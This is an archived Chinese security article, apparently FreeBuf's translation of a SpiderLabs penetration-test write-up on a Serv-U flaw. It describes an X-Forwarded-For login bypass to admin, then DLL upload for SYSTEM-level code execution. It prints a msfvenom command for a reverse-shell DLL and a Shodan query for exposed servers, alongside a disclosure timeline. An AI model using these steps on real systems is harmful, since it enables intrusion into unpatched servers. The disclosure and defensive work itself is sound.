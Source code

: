 ```yaml
---
layout: post
title: 看我如何在渗透测试过程中发现并利用Serv-U漏洞进行操作系统提权
categories:
- Pocket
tags:
---
```

原文地址：http://mp.weixin.qq.com/s/NHWyQ_Rg2mjyRFCaU6-_Wg

收藏时间：2017-04-10 23:51:54

<div  >
                <div id="img-content" class="rich_media_area_primary" nodeIndex="6">
                    
                    <p class="profile_meta _RIL_KEEPER_CLASS_" nodeIndex="11">
                                <label class="profile_meta_label">微信号</label>
                                <span class="profile_meta_value">freebuf</span>
                                </p><p class="profile_meta _RIL_KEEPER_CLASS_" nodeIndex="12">
                                <label class="profile_meta_label">功能介绍</label>
                                <span class="profile_meta_value">国内关注度最高的全球互联网安全新媒体</span>
                                </p>
                    
                    
                    
                    
                                                            
                                                            
                    
                    <div class="rich_media_content " id="js_content" nodeIndex="13">
                        
                       
                        

                        
                        
                        <p class=" _RIL_KEEPER_CLASS_" nodeIndex="14"><span nodeIndex="84">最近，我在做一个外网渗透测试的过程中，发现了SolarWinds文件共享程序Serv-U的一个漏洞，通过该漏洞我获得了Serv-U的管理权限，并能以系统用户身份执行远程代码，成功完成操作系统提权。</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="15"><span nodeIndex="85">在此，我在Win7虚拟机中安装Serv-U程序，对该漏洞作出验证。</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="16"><span nodeIndex="86"><div id="RIL_IMG_1" class="RIL_IMG"><img src="/media/posts_images/2017-04-10-1693594667/1"/></div></span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="17"><br nodeIndex="87"></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="18"><span nodeIndex="88"><strong class=" _RIL_KEEPER_CLASS_" nodeIndex="89"><span nodeIndex="90">前期发现</span></strong></span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="19"><span nodeIndex="91">Serv-U安装之后，不需要进行任何配置，其默认的Web服务端口为127.0.0.1，由于是本地服务器地址，即使提供外部服务也不需要更改此IP。</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="20"><div id="RIL_IMG_2" class="RIL_IMG"><img src="/media/posts_images/2017-04-10-1693594667/2"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="21"><span nodeIndex="92">基于这个Web服务端，我利用Burp Suite的Spider功能来发现了其/?Command=Login请求点可能存在问题，之后，继续利用Burp Suite的Scanner功能，用包含X-Forwarded-For头的POST请求对该点发起fuzz攻击，来观察其响应结果。没过一会，通过对这些响应信息的手工验证后发现，当提交的登录请求中包含了X-Forwarded-For头为127.0.0.1的POST请求信息时，Serv-U程序将以本地管理员身份响应一个有效的Session会话。</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="22"><div id="RIL_IMG_3" class="RIL_IMG"><img src="/media/posts_images/2017-04-10-1693594667/3"/></div><br nodeIndex="93"></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="23"><span nodeIndex="94">虽然该POST请求通过Firefox浏览器会产生一个如下的错误提示：</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="24"><div id="RIL_IMG_4" class="RIL_IMG"><img src="/media/posts_images/2017-04-10-1693594667/4"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="25"><span nodeIndex="95">但其本地管理员身份的Session会话却是有效的，利用该Cookie构造GET请求：</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="26"><div id="RIL_IMG_5" class="RIL_IMG"><img src="/media/posts_images/2017-04-10-1693594667/5"/></div><br nodeIndex="96"></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="27"><span nodeIndex="97">可以顺利以管理员身份登录Serv-U管理后台：</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="28"><span nodeIndex="98"><div id="RIL_IMG_6" class="RIL_IMG"><img src="/media/posts_images/2017-04-10-1693594667/6"/></div></span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="29"><br nodeIndex="99"></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="30"><strong class=" _RIL_KEEPER_CLASS_" nodeIndex="100"><span nodeIndex="101">进一步利用</span></strong></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="31"><span nodeIndex="102">经过一番研究发现，攻击者可以利用http://127.0.0.1:43958/Admin/ServerLimits.htm页面下的集成库文件导入功能（intergration library），上传并执行任意DLL文件：</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="32"><div id="RIL_IMG_7" class="RIL_IMG"><img src="/media/posts_images/2017-04-10-1693594667/7"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="33"><span nodeIndex="103">这里，我用msfvenom来制作免杀的恶意DLL文件MFC100PWN.dll，如下：</span><br nodeIndex="104"></p><blockquote nodeIndex="34"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="35"><span nodeIndex="105">root@6c656f:~# msfvenom -p windows/x64/powershell_reverse_tcp LHOST=192.168.1.101 LPORT=8443 -f dll > MFC100PWN.dllNo platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1810 bytes
Final size of dll file: 5120 bytes
root@6c656f:~# file MFC100PWN.dllMFC100PWN.dll: PE32+ executable (DLL) (GUI) x86-64, for MS Windows</span></p></blockquote><p class=" _RIL_KEEPER_CLASS_" nodeIndex="36"><br nodeIndex="106"></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="37"><div id="RIL_IMG_8" class="RIL_IMG"><img src="/media/posts_images/2017-04-10-1693594667/8"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="38"><span nodeIndex="107">该DLL文件将会向192.168.1.101:8443执行反弹连接，所以，这里用Metasploit开启一个监听端listener。</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="39"><br nodeIndex="108"></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="40"><span nodeIndex="109"><strong class=" _RIL_KEEPER_CLASS_" nodeIndex="110"><span nodeIndex="111">操作系统提权</span></strong></span><span nodeIndex="112"><br nodeIndex="113"></span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="41"><span nodeIndex="114">把MFC100PWN.dll文件通过Serv-u web client上传至 目录”C:\Program Files\RhinoSoft\Serv-U”：</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="42"><div id="RIL_IMG_9" class="RIL_IMG"><img src="/media/posts_images/2017-04-10-1693594667/9"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="43"><div id="RIL_IMG_10" class="RIL_IMG"><img src="/media/posts_images/2017-04-10-1693594667/10"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="44"><span nodeIndex="115">执行该DLL文件：</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="45"><div id="RIL_IMG_11" class="RIL_IMG"><img src="/media/posts_images/2017-04-10-1693594667/11"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="46"><span nodeIndex="116">不出意外，通过该DLL文件的反弹shell，我们获得了Serv-u所在系统的管理员权限。</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="47"><br nodeIndex="117"></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="48"><span nodeIndex="118"><strong class=" _RIL_KEEPER_CLASS_" nodeIndex="119"><span nodeIndex="120">漏洞影响</span></strong></span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="49"><span nodeIndex="121">至2017年1月30日，通过Shodan查询，可以发现全球联网的，安装有类似Serv-U服务的15,000多台服务器都面临此漏洞威胁，而据我们研究发现，Serv-U在15.1.5之前的所有版本都受此漏洞影响。（具体漏洞信息参考此声明）</span><br nodeIndex="122"></p><blockquote nodeIndex="50"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="51"><span nodeIndex="123">Server: Serv-U/ product:"Rhinosoft Serv-U httpd"</span></p></blockquote><p class=" _RIL_KEEPER_CLASS_" nodeIndex="52"><div id="RIL_IMG_12" class="RIL_IMG"><img src="/media/posts_images/2017-04-10-1693594667/12"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="53"><span nodeIndex="124"><strong class=" _RIL_KEEPER_CLASS_" nodeIndex="125"><span nodeIndex="126">漏洞报告进程</span></strong></span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="54"><span nodeIndex="127">01/13/2017 – 向SolarWind披露漏洞</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="55"><span nodeIndex="128">02/17/2017 – SolarWind发布补丁</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="56"><span nodeIndex="129">03/22/2017 – 公开漏洞</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="57"><span nodeIndex="130">*参考来源：SpiderLabs，freebuf小编clouds编译，转载请注明来自Freebuf.com。</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="58"><div id="RIL_IMG_13" class="RIL_IMG"><img src="/media/posts_images/2017-04-10-1693594667/13"/></div><br nodeIndex="131"></p>
                    </div>
                    <div class="ct_mpda_wrp" id="js_sponsor_ad_area" nodeIndex="59">

                    </div>

                    
                                        <p id="js_preview_reward_wording" class="tips_global reward_tips _RIL_KEEPER_CLASS_" nodeIndex="61"></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="62">
                            <a class="reward_access" id="js_preview_reward_link" href="">赞赏</a>
                        </p>
                                        
                                        



                                    </div>

                

                <div class="rich_media_area_extra" nodeIndex="66">

                    
                                        <div class="mpda_bottom_container" id="js_bottom_ad_area" nodeIndex="67">
                        
                    </div>
                                        
                    <div id="js_iframetest" nodeIndex="68"></div>
                                        
                                        <p class="tips_global tc title_bottom_tips _RIL_KEEPER_CLASS_" id="js_cmt_nofans1" nodeIndex="72">该文章作者已设置需关注才可以留言</p><p class="discuss_icon_tips title_bottom_tips tr _RIL_KEEPER_CLASS_" id="js_cmt_addbtn1" nodeIndex="73" childisonlyalink="1">
                                
                                                                <a href="http://mp.weixin.qq.com/s/NHWyQ_Rg2mjyRFCaU6-_Wg" id="js_cmt_write1">写留言<div id="RIL_IMG_14" class="RIL_IMG"><img src="/media/posts_images/2017-04-10-1693594667/14"/></div></a>
                                                            </p><ul class="discuss_list _RIL_KEEPER_CLASS_" id="js_cmt_list"></ul><p class="discuss_icon_tips rich_split_tips tr _RIL_KEEPER_CLASS_" id="js_cmt_addbtn2" nodeIndex="75" childisonlyalink="1">
                            
                                                        <a href="http://mp.weixin.qq.com/s/NHWyQ_Rg2mjyRFCaU6-_Wg" id="js_cmt_write2">写留言</a>
                                                    </p><p class="rich_split_tips tc tips_global _RIL_KEEPER_CLASS_" id="js_cmt_tips" nodeIndex="76"></p><p class="rich_split_tips tc _RIL_KEEPER_CLASS_" id="js_cmt_qa" nodeIndex="79" childisonlyalink="1">
                            <a href="http://kf.qq.com/touch/sappfaq/150211YfyMVj150313qmMbyi.html?scene_id=kf264">
                                了解留言功能详情                            </a>
                        </p><div id="RIL_IMG_15" class="RIL_IMG"><img src="/media/posts_images/2017-04-10-1693594667/15"/></div></div></div>